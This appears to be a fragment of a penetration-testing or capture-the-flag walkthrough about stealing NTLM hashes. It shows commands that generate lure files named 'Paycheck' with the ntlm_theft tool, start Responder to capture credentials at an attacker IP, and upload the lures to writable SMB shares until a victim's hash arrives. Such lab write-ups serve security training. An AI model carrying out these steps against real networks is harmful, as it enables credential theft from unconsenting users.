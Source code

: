 ![](../img/27.png)

![https://github.com/Greenwolf/ntlm_theft](https://github.com/Greenwolf/ntlm_theft)

`NTLM_THEFT` is a tool that generates different types of hash theft documents. If you can write to an SMB share, always try to use it.
```
python ~/Tools/AD/Sniffing/ntlm_theft/ntlm_theft.py -g all -s 10.8.3.153 -f Paycheck
```
Run responder:
```
> sudo responder  -I tun0 -w -r -d -F -P -v                        
```
First, I tried putting the files inside every writable directory from the `Users` share but no luck.
The directory that gets accessed by the victim is either `software` or `transfer` inside the `share` share because once I started putting the files there, I got the hash.
```
recurse on
prompt off
mput *
```
